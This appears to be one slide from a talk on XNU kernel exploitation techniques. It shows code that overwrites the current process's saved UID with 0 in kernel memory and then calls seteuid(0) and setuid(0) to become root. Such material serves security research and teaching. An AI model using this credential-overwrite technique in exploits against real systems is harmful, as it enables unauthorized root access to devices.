

# XNU Exploit Techniques – Becoming Root
The obvious first task our exploit must accomplish is to become root:
proc = current_proc()
posix_cred_get(proc_ucred(proc))->cr_svuid = 0;
After changing our saved UID to 0, we can use seteuid/setuid to become root:
seteuid(0);
setuid(0);